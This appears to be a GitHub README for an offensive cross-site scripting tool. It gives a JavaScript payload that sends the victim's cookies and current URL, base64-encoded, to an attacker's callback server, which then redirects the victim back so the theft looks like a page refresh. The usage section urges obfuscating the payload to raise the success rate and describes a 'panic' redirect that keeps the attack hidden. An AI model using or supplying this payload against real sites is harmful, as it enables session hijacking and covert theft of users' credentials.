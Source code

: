 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which responds with a **301 Moved Permanently** redirection back to where the victim came from (Referer), although this time with a token in the URL anchor, telling your XSS payload to stay dormant.

If for whatever reason the victim did not reveal its origin, the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly. please do not open issues if it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
